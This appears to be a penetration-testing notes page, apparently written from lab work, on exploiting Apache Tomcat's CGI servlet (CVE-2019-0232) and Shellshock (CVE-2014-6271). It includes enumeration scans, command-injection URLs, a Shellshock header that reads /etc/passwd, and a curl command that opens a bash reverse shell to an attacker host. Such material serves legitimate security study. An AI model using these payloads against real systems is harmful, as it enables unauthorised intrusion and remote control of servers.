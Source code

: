 # Tomcat CGI

The CGI Servlet in Apache Tomcat helps web servers talk to programs outside the Tomcat environment. These external programs are usually CGI scripts in languages like Perl, Python, or Bash. The CGI Servlet takes requests from web browsers and sends them to these scripts for processing. Essentially, it allows web servers, like Apache2, to run external applications following the CGI standard and acts as a link between web servers and external data sources, like databases. It is typically used to render dynamic content onto web pages and acts as middleware between the web servers, external databases and the front end of the web application. CGI scripts are stored in /CGI-bin or /cgi

\


<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



### Vulnerabilities&#x20;

there are a number of known vulnerabilities like CVE-2019-0232 that can result in RCE.&#x20;

#### CVE-2019-0232

the enabledCmdLineArguments setting for Tomcat CGI, when enabled, determines if command line arguments are created from the received query string. the servlet parses the query string and sends it to the CGI script as arguments.&#x20;

For example, the arguement in these calls are used to switch between the scripts actions:

```
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby

http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```

When enableCmdLineArguements is enabled on a windows server - the servlet doesnt poperly validate input from the web browser before passing it to the script. this can then be used to perform a command injection.

For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system. If the attacker controls the input to a CGI script that uses this command, they can inject their own commands after `&` to execute any command on the server. An example of this is `http://example.com/cgi-bin/hello.bat?&dir`

**if commands like whoami are not working - the path might not be set:**

Retrieve a list of environmental variables by calling the `set` command:

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

URL encode your payload if the command has a space or special characters:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Enumeration

Look for tomcat:&#x20;

```shell-session
Adam-162@htb[/htb]$ nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```

### Finding CGI scripts&#x20;

we can use FFUF on the /cgi directory to locate sgi scripts we can try to exploit:&#x20;

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd

gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Its also important to fuzz for other extensions:

```shell-session
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Shellshock CVE-2014-6271

> Security flaw in the Bash shell that can be used to inject commands via environment variables. This is a 25 year old bug that is still found in the wild frequently. the older bash version saves environment variables incorrectly resulting in the possible execution of operating system commands that are included after a function stored inside an environment variable.&#x20;

```
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

#### Locate CGI scripts:

```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Curl the script, see if it returns 200 or additonal data&#x20;

```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

Validating vulnerability:&#x20;

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

Exploiting for a reverse shell:

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

#### Mitigation:

{% embed url="https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability" %}
